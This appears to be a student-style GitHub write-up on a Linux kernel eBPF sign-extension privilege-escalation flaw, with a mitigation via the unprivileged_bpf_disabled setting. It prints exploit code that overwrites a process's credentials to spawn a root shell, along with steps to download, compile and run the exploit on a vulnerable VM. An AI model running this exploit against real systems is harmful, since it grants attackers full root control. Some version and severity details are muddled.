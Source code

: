 # Linux Kernel - BPF Sign Extension Local Privilege Escalation

![alt text](https://github.com/samaleyadeh/images/blob/master/DY42GCGV4AA1_8F.jpg) 

This vulnerability was caused by a bug in the linux kernel that allowed sign extension from a signed 32-bit integer to an unsigned 64-bit integer, bypassing eBPF verifier and leading to local privilege escalation. The check_alu_op function in kernel/bpf/verifier.c in the Linux kernel allows local users to cause a denial of service (memory corruption) or possibly have unspecified other impact by leveraging incorrect sign extensions.

This could occur due to the fact taht before each of the BPF program runs, two passes of verifications are conducted to ensure its correctness. The first pass check_cfg() ensures the code is loop-free using depth-first search. The second pass do_check() runs a static analysis to emulate the execution of all possible paths derived from the first instruction. The program will be terminated if any invalid instruction or memory violation is found.

In the exploit, a set of BPF instructions are carefully crafted to bypass this filtering process through an unintentional sign extension from 32 bits to 64 bits. As a result, a few lines of malicious code could be attached and get executed in the kernel space, resulting in a hack refered to as privilege escalation explained below. 

This vulnerability allowed attacker to have full control of the system with root access. The low complexity of the attack and low privileges required to perform this exploit made it high priority. 

It affected specific versions of linux based system, but given that Ubuntu has a large number of users around the world, especially public cloud users, the vulnerability had the potetional to cause diruptions at a significant scale for both corporate and individual users.

### Vulnerability Overview and Impact
Linux Kernel Version: 4.14 - 4.4 (mainly Ubuntu and Debian)
CVSS v3 Score: 7.8 (Severity: high)
Confidentiality: High
Integrity: High
Authority: High


## [What is Sign Extension?](https://en.wikipedia.org/wiki/Sign_extension)

Is a simple process by wich the represetnation of a value in memory is changed from a lower number of bits to a higher number of bits while preserving its content and sign in the process as illistrated in the figure above

![alt text](https://github.com/samaleyadeh/images/blob/master/sign-extension.jpg) 


## [What is Privilege Escalation](https://en.wikipedia.org/wiki/Privilege_escalation)
![alt text](https://github.com/samaleyadeh/images/blob/master/300px-Priv_rings.svg.png?raw=true) 

In this form of attacks the aim is to raise the abilities and access of the attacker from the intrusion level to higher abilites with the ultimate goal of gaining root access.

## [What is BPF](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter)?

As you may know, the user layer and kernel layer of Linux are isolated. If you want the kernel to execute the user's code, you need to write the kernel module which can only be loaded by the root user. The BPF (Berkeley Packet Filter) provides a bridge between code and data transfer between the user and the kernel. The user can use the eBPF instruction bytecode to deliver code to the kernel, and trigger the kernel to execute the user-provided code through events (such as writing data to the socket), and share the data with the kernel in the form of map (key - value). The user layer writes data to the map, and the kernel layer fetches data from the map, and vice versa. 
The original intention of BPF is to filter the network at the bottom, and later it can easily inject code into the kernel. It is widely used for packet capture, kernel probe, Performance monitoring and other fields. 
eBPF virtual instruction system
The eBPF virtual instruction system belongs to Reduced Instruction Set Computer (RISC) and has 10 64-bit virtual registers, r0-r10. r0 stores the return value, r1 to r5 is reserved for arguments, r6 to r9 is reserved for storing callee saved registers and r10 stores read-only frame pointer. In actual operation, the virtual machine corresponds these 10 registers to the 10 physical registers of the hardware CPU: R0 - rax, R1 - rdi , R2 - rsi , R3 - rdx , R4 - rcx , R5 - r8 , R6 - rbx , R7 - r13 , R8 - r14 , R9 - r15 , R10 – rbp(frame pointer).
Each BPF instruction on x64 platform is of 64-bit long. The format of each instruction is as follows:

![alt text](https://github.com/samaleyadeh/images/blob/master/zero-day-attack-1024x413.jpg) 

```C
Struct bpf_insn { 
    __u8 code;         /* opcode */ 
    __u8 dst_reg: 4 ;     /* dest register */ 
    __u8 src_reg: 4 ;     /* source register */ 
    __s16 off;         /* signed offset */ 
    __s32 imm;         /* signed immediate constant */ 
};
```
For example, a simple x86 assignment instruction: mov eax, 0xffffffff, the corresponding BPF instruction is: BPF_MOV32_IMM (BPF_REG_2, 0xFFFFFFFF), and its corresponding data structure is:


```C

#define BPF_MOV32_IMM(DST, IMM) \ 
    (( struct bpf_insn) { \ 
        .code   = BPF_ALU | BPF_MOV | BPF_K, \ 
        .dst_reg = DST, \ 
        .src_reg = 0 , \ 
        .off    = 0 , \ 
        .imm    = IMM })

```
Its value in memory is: ``` \xb4\x09\x00\x00\xff\xff\xff\xff ```

In conclusion, 
1. eBPF virtual instruction system is a RISC instruction system, that is, each instruction size is the same; 
2. Its virtual 10 registers correspond 10 physical cpu registers, and the function is similar. For example, the r10 register of the BPF and the rbp point to the stack, and r0 is used for the return value.


```C
uint64_t fp, sp, task_struct, credptr, uidptr;

	fp = __get_fp();
	if (fp < PHYS_OFFSET)
		__exit("bogus fp");
	
	sp = get_sp(fp);
	if (sp < PHYS_OFFSET)
		__exit("bogus sp");
	
	task_struct = __read(sp);

	if (task_struct < PHYS_OFFSET)
		__exit("bogus task ptr");

	printf("task_struct = %lx\n", task_struct);
```


```C
	credptr = __read(task_struct + CRED_OFFSET); // cred

	if (credptr < PHYS_OFFSET)
		__exit("bogus cred ptr");

	uidptr = credptr + UID_OFFSET; // uid
	if (uidptr < PHYS_OFFSET)
		__exit("bogus uid ptr");

	printf("uidptr = %lx\n", uidptr);
	__write(uidptr, 0); // set both uid and gid to 0

	if (getuid() == 0) {
		printf("spawning root shell\n");
		system("/bin/bash");
		exit(0);
	}

	__exit("not vulnerable?");
}
```

## Reproducing the vulnerability
1. Install Ubuntu16.04 on Virtualbox
Download from: http://old-releases.ubuntu.com/releases/16.04.0/ 
version downloaded by me: ubuntu-16.04.3-server-i386.iso
2. Change to another version
```sudo apt-get install linux-headers-4.4.0.116-generic linux-image-4.4.0.116-generic```
3. Edit “grub.cfg” to make sure the linux version has been changed
```nano /boot/grub/grub.cfg```

4. Reboot, download and compile the code.
```sudo apt-get install gcc```
```wget https://raw.githubusercontent.com/LiYangHart/Hacking_Project2/master/upstream44.c```
```gcc –o test upstream44.c```
```./test```
```id```

## Fixing the vulnerability
The users can limit the use of bpf system calls to restrict ordinary users by modifying kernel parameters:
Set the parameter ```kernel.unprivileged_bpf_disabled = 1``` to prevent this privilege escalation by restricting access to bpf.
```echo 1 > /proc/sys/kernel/ unprivileged_bpf_disabled```
we can run the exploit again with the privileges of a normal user to check the if the exploit is there or not.

as shown in the figure above

